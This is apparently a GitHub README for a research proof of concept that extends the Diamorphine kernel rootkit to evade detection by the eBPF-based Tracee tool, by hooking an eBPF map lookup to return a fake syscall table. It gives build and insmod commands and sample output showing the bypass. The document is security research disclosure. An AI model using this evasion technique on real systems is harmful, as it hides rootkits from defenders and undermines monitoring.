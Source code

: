 ## 🙈 Hiding from Tracee

This repository contains the POC developed while writing [the paper](docs/A_weakness_in_eBPF_based_runtime_security_applications.md): “A weakness in eBPF-based runtime security applications”.

The paper presents a weak point in the architecture of eBPF-based security applications that are heavily based on eBPF maps. In the paper, I discussed [Tracee](https://github.com/aquasecurity/tracee), a runtime security application built by Aqua Security as an example of a security product based only on eBPF. The POC was developed to bypass one detection method of Tracee.

### 📁 The repository includes four directories:
```
├── docs                           includes the paper in Markdown format
├── extended_diamorphin            The full POC
├──  ftrace__htab_map_lookup_elem  The code for the hook
└── setup_env                      environment setup scripts
```

> ### ⚠️ It is necessary to note that
> The code here relies on static [kernel code](https://elixir.bootlin.com/linux/latest/source/kernel/bpf) (*extended_diamrphine/src/bpf/* *) and was tested only on Ubuntu 18.04 / 20.04 with Kernel version 5.4.0 
> It will probably **not run** on other kernel versions!
    
>If you want to run on a different kernel, there is a script called `get_bpf_dir.sh` that update the static code

### 🏃‍♀️ Run and test 
Few step are required before running the POC. 

First, **setup** the development environment:
``` bash
# Setup dev environment
cd setup_env/
./setup_env.sh

# Compile Diamorphine and load to the kernel
cd Diamorphine/
make
sudo insmod diamorphine.ko

# Compile Tracee from source
cd tracee
make

## Compile the program
cd ../../extended_diamorphine
make
```

**Run**:
``` bash
sudo insmod diamorphine.ko
```

**Unload**:
``` bash
# Uninstall Diamorphine
kill -63 0 && sudo rmmod diamorphine
sudo rmmod htab
```

### 🧪 Example output
``` bash
$ cd setup_env/tracee/
$ sudo ./dist/tracee-ebpf -t e=hooked_syscalls
TIME             UID    COMM             PID     TID     RET              EVENT                ARGS
```

``` bash
$ sudo dmesg | tail

# Fake table allocated successfully
[4.874517] Fake table addr: 00000000198b1f93 
# The hook succeeded!
[5.172042] The original syscall_table_addr from map: 000000000a0fb5da But 00000000827549d2 returned 
```


